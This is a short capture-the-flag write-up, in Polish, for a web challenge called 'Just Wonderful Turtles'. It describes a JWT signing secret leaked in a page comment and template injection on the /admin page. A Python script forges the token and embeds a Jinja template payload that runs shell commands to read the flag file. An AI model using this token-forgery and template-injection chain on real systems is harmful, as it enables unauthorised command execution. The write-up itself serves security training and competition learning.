 # Just Wonderful Turtles - web

### Vulnerability

1. Token do JWT jest podany w komentarzu jednego żółwia:
> **Secretina**
> (admin): Beware! You might spill some secrets when looking at this turtle!
> (admin): Just Wonderful Turtle team secret is: we think that '**turtlerocks**'!

2. SSTI na `/admin` w nazwie użytkownika.

### Solution

```python
import re
import jwt
import requests

payload = "admin{{ dict[request.args.a][request.args.b][1][request.args.c]()[372](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}"

token = jwt.encode({
  "sub": payload,
  "exp": 2219599354,
}, "turtlerocks", algorithm="HS256")

req = requests.get("https://turtles.ecsc24.hack.cert.pl/admin?a=__class__&b=__mro__&c=__subclasses__&cmd=cat+/flag.txt", cookies={
  "access_token_cookie": token,
})

print(re.findall(r"ecsc24{.*}", req.text)[0]) # ecsc24{turt13s_REa1lY_r0ck!}
```
